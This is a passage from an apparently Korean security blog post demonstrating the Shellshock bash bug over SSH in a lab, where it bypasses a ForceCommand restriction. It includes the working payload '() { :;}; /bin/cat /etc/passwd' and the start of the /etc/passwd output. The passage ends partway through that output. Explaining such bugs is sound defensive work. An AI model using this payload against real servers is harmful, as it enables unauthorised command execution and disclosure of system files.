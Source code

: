 <p>SSH는 ForceCommand가 설정되어 있지 않으면, 쉘 명령어를 자유롭게 사용할 수 있으므로 취약점으로 보기 어렵다. 하지만  ForceCommand를 설정한 경우에는 취약점이 될 수 있다. ForceCommand는 사용자가 SSH로 접속 시 해당 옵션에 설정한 명령어만 수행하고 종료되도록 처리하는 옵션이다. 보통은 이 옵션을 활성화 시키지 않으나, 다음과 같은 경우 사용된다.</p>
<ul>
<li>사용자 로그인 시 특정 스크립트를 실행</li>
<li>특정 명령어(rsync 등)를 주기적으로 수행하는 목적</li>
<li>중간에 프록시 SSH 서버를 두고 접속 시 다른 서버로 제어를 옮기도록 처리</li>
</ul>
<p>우선 공격 대상 서버는 다음과 같이 설정(sshd_config)하였다.</p>
<p>[code language="bash"]<br />
# Example of overriding settings on a per-user basis<br />
Match User victim<br />
X11Forwarding no<br />
AllowTcpForwarding no<br />
ForceCommand ls<br />
[/code]</p>
<p>위와 같이 설정하면 클라이언트가 접속 시, ls 명령어 결과만 출력하고 종료된다.</p>
<p>[code language="bash"]<br />
n0fates-Mac-mini:~ n0fate$ ssh victim@172.16.237.128<br />
Desktop Downloads Movies Pictures<br />
Documents Library Music Public<br />
Connection to 172.16.237.128 closed.<br />
[/code]</p>
<p>클라이언트 접속 시 뒤에 인자를 붙이더라도 ls의 인자로 붙어 처리되므로 원하는 명령어를 수행하지 못하고 종료된다. 세미콜론을 사용하더라도 클라이언트의 bash에서 핸들링하므로 올바른 처리가 안된다.</p>
<p>[code language="bash"]<br />
$ ssh victim@172.16.237.128 ; /usr/bin/id<br />
Desktop Downloads Movies Pictures<br />
Documents Library Music Public<br />
Connection to 172.16.237.128 closed.<br />
uid=501(n0fate) gid=20(staff) groups=20(staff),….<br />
$<br />
[/code]</p>
<p>[code language="bash"]<br />
$ ssh victim@172.16.237.128 &quot;; /usr/bin/id&quot;<br />
Desktop Downloads Movies Pictures<br />
Documents Library Music Public<br />
Connection to 172.16.237.128 closed.<br />
$<br />
[/code]</p>
<p>하지만, 이번 취약점의 경우에는 환경 변수에 값을 넣으면서 생기는 취약점이기 때문에 SSH의 설정을 무시하고 명령어가 실행된다. 이번 취약점을 이용하여 코드를 작성하면 다음과 같은 결과를 확인할 수 있다.</p>
<p>[code language="bash"]<br />
$ ssh victim@172.16.237.128 '() { :;}; /bin/cat /etc/passwd'<br />
##<br />
# User Database<br />
#<br />
# Note that this file is consulted directly only when the system is running<br />
# in single-user mode.  At other times this information is provided by<br />
# Open Directory.<br />
#<br />